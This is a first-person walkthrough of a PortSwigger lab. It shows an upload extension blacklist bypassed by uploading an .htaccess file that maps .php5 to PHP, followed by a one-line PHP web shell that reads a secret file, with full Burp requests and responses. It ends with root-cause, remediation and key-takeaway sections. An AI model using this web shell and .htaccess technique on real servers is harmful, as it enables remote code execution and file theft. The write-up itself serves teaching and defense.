

# PortSwigger Lab: Web shell upload via extension blacklist bypass

# TAGS: File Upload, Extension Blacklist Bypass, .htaccess, RCE, Burp Suite

# Lab Information:

- **Vulnerability Location:** Web shell upload via extension blacklist bypass
- **Difficulty:** Apprentice
- **Objective:** Exfiltrate the file `/home/carlos/secret` using a PHP web shell.
- **Tools:** Burp Suite
- **Provided Credentials:** `wiener:peter`

---

## Introduction

In this lab, the application blacklists certain dangerous file extensions, but the blacklist is flawed. I show how I bypassed it by uploading a malicious `.htaccess` file that tells Apache to execute a custom extension, and then uploaded a PHP web shell with that extension to read a sensitive file.

This write-up covers the reconnaissance, the exploitation steps, the root cause, the real-world impact, and how to prevent it.

---

## Reconnaissance:

#### Lab Description Lookup:

The lab description says that the application has an image upload function, like the previous labs, but this time the application blacklists certain extensions.

With Burp running, I navigated directly to `/my-account` and logged in using the credentials provided by the lab (`wiener:peter`).

Once logged in, I found a function to upload a profile image and uploaded a random avatar.



I sent the image request to Burp Repeater. I would use it later.

```http
GET /files/avatars/avatarbob.png HTTP/2
Host: 0a8f0089032fb19e81b72afc00db00b4.web-security-academy.net
Cookie: session=wjXczaXxEV0jnO4BhPEl5cqQEFviIaZR
Sec-Ch-Ua-Platform: "Linux"
```

I also analysed the POST request response:

```http
HTTP/2 200 OK
Date: Wed, 23 Sep 2026 13:30:16 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 134

The file avatars/avatarbob.png has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Now I knew that the server runs Apache/2.4.41, so I could infer some things to test against the application.

---

## Exploitation:

#### Step 1: Test whether the image upload function accepts PHP

I reused the file from the previous labs, called `shell.php`, with the following content:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

- `file_get_contents` is a PHP function that reads the contents of a file into a string.
- `/home/carlos/secret` is the file indicated in the lab description.

Then I uploaded the file through the avatar upload function:

```http
HTTP/2 403 Forbidden
Date: Wed, 23 Sep 2026 13:32:42 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 164

Sorry, php files are not allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

The server returned `403 Forbidden`, so, as expected, it is blocking my `.php` file.

I also uploaded a file with the `.php5` extension. Sometimes the blacklist only covers well-known extensions. The file was uploaded but not executed.

#### Step 2: Create an .htaccess file to change the server configuration

> `.htaccess` files provide a way to make configuration changes on a per-directory basis, without modifying the main server configuration files directly.
> https://httpd.apache.org/docs/current/en/howto/htaccess.html

Since I had checked that the server running is Apache, I could try to change the server configuration for the directory using an `.htaccess` file.

To achieve this, I had to send a file called `.htaccess` through the avatar upload function. I sent the image POST request to Burp Repeater and changed some attributes:

`filename=.htaccess` and `Content-Type: text/plain`.

I changed the content to:

```apache
AddType application/x-httpd-php .php5
```

It maps `.php5` to the PHP handler. It could be any extension, but since I had already uploaded a `.php5` file, I chose this one.

```http
POST /my-account/avatar HTTP/2
Host: 0a8f0089032fb19e81b72afc00db00b4.web-security-academy.net
Cookie: session=wjXczaXxEV0jnO4BhPEl5cqQEFviIaZR
Content-Length: 443
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="151", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaHOW1NfijCTvEJgh
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Origin: https://0a8f0089032fb19e81b72afc00db00b4.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8f0089032fb19e81b72afc00db00b4.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryaHOW1NfijCTvEJgh
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .php5

------WebKitFormBoundaryaHOW1NfijCTvEJgh
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryaHOW1NfijCTvEJgh
Content-Disposition: form-data; name="csrf"

e3D38FyDXvaBdcepojccyDWrXPyQa7FV
------WebKitFormBoundaryaHOW1NfijCTvEJgh--
```

The response was `200`, so the server accepted it.

```http
HTTP/2 200 OK
Date: Wed, 23 Sep 2026 13:47:54 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 130

The file avatars/.htaccess has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

#### Step 3: Check whether the server applied the .htaccess configuration

To check whether the configuration was applied, I repeated the GET request to the shell:

```http
GET /files/avatars/shell.php5 HTTP/2
Host: 0a8f0089032fb19e81b72afc00db00b4.web-security-academy.net
Cookie: session=wjXczaXxEV0jnO4BhPEl5cqQEFviIaZR
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Sec-Ch-Ua: "Chromium";v="151", "Not=A?Brand";v="99"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a8f0089032fb19e81b72afc00db00b4.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

And the response was `200`, with the token I had to use to finish the lab.

```http
HTTP/2 200 OK
Date: Wed, 23 Sep 2026 13:48:09 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

I59rECVV3iVbamuYL77o9aRnoH0zCndI
```

---

## Root Cause

The application relied on a blacklist of "dangerous" extensions, which is a fundamentally flawed approach: it only blocks known extensions and misses every other way of executing code. Two weaknesses made the bypass possible:

1. **Incomplete blacklist:** it blocked `.php` but allowed other extensions, such as `.php5`, to be uploaded.
2. **User-controlled server configuration:** the application allowed uploading a `.htaccess` file into a directory processed by Apache. That file let me map a new extension (`.php5`) to the `application/x-httpd-php` handler, so my previously uploaded web shell was executed.

Blacklists fail because they try to enumerate everything bad; allow-lists are the correct approach.

---

## Impact

By overriding the server configuration, an attacker can turn any uploaded file into executable code, achieving remote code execution (RCE) with the privileges of the web application. In real-world applications, this is a critical vulnerability: an attacker could read arbitrary files, modify or destroy data, install a persistent backdoor, or pivot into internal systems — leading to full server compromise.

---

## Remediation

To prevent this issue, applications should:

- Validate uploaded files server-side using an allow-list of extensions, not a blacklist;
- Verify the file's content (e.g., MIME type and magic bytes), not just its name;
- Reject dangerous filenames such as `.htaccess` and `.htpasswd`, and never let uploads change server behavior;
- Never store user uploads in a location the web server executes — serve them from a separate domain or static storage with scripting disabled;
- Disable `.htaccess` overrides where possible (`AllowOverride None`);
- Run the application with the least privileges necessary, so that code execution does not immediately grant full access to the system.

---

## Key Takeaways

1. Blacklists are inherently incomplete; always prefer allow-lists.
2. Blocking `.php` is not enough — other executable extensions and Apache `.htaccess` overrides can be abused.
3. Uploading a `.htaccess` file can change how the server handles files in that directory.
4. Knowing the server (e.g., Apache) guides which bypass technique to try.
5. Once code execution is achieved, the impact is full server compromise.

---

## References

- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [PortSwigger — Web shell upload via extension blacklist bypass (lab)](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)
- [Apache — .htaccess files](https://httpd.apache.org/docs/current/en/howto/htaccess.html)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

---

## Disclaimer

This write-up was created for educational purposes only. All testing was performed in an authorized PortSwigger Web Security Academy laboratory environment. Never test systems without explicit authorization.

This article was written with the assistance of artificial intelligence tools for text review, structure, and grammar correction. However, the entire testing process, technical analysis, vulnerability exploitation, and conclusions presented are the sole responsibility of the author and are based on tests performed in a controlled environment provided by the PortSwigger Web Security Academy.
